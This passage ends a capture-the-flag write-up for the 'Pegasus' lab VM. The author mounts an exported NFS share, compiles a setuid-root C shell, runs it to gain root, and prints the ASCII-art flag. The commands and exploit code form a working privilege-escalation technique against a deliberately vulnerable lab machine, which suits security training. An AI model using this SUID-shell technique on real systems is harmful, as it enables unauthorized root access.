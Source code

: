 So, I mounted the share...

```bash
root@kali:~# mkdir nfs
root@kali:~# mount 192.168.56.101:/opt/nfs nfs
```

... prepped a SUID shell ...

```bash
root@kali:~/Desktop/pegasus/nfs# cat shell.c 
#include <stdio.h>

int main()
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
root@kali:~/Desktop/pegasus/nfs# gcc shell.c -o shell
root@kali:~/Desktop/pegasus/nfs# chmod 4777 shell
root@kali:~/Desktop/pegasus/nfs# ls -lah
total 20K
drwxr-xr-x 2 root root 4.0K Dec 23 14:39 .
drwxr-xr-x 3 root root 4.0K Dec 23 14:32 ..
-rwsrwxrwx 1 root root 5.0K Dec 23 14:39 shell
-rw-r--r-- 1 root root   79 Dec 23 14:39 shell.c
```

... and rooted Pegasus :)

```bash
john@pegasus:~$ /opt/nfs/shell 
# id
uid=0(root) gid=0(root) groups=0(root),1000(john)
```

## flag :)

```text
# cat /root/flag
               ,
               |`\        
              /'_/_   
            ,'_/\_/\_                       ,   
          ,'_/\'_\_,/_                    ,'| 
        ,'_/\_'_ \_ \_/                _,-'_/
      ,'_/'\_'_ \_ \'_,\           _,-'_,-/ \,      Pegasus is one of the best
    ,' /_\ _'_ \_ \'_,/       __,-'<_,' _,\_,/      known creatures in Greek
   ( (' )\/(_ \_ \'_,\   __--' _,-_/_,-',_/ _\      mythology. He is a winged
    \_`\> 6` 7  \'_,/ ,-' _,-,'\,_'_ \,_/'_,\       stallion usually depicted
     \/-  _/ 7 '/ _,' _/'\_  \,_'_ \_ \'_,/         as pure white in color.
      \_'/>   7'_/' _/' \_ '\,_'_ \_ \'_,\          Symbol of wisdom and fame.
        >/  _ ,V  ,<  \__ '\,_'_ \_ \'_,/
      /'_  ( )_)\/-,',__ '\,_'_,\_,\'_\             Fun fact: Pegasus was also
     ( ) \_ \|_  `\_    \_,/'\,_'_,/'               a video game system sold in
      \\_  \_\_)    `\_                             Poland, Serbia and Bosnia.
       \_)   >        `\_                           It was a hardware clone of
            /  `,      |`\_                         the Nintendo Famicom.
           /    \     / \ `\
          /   __/|   /  /  `\  
         (`  (   (` (_  \   /   
         /  ,/    |  /  /   \   
        / ,/      | /   \   `\_ 
      _/_/        |/    /__/,_/
     /_(         /_( 

```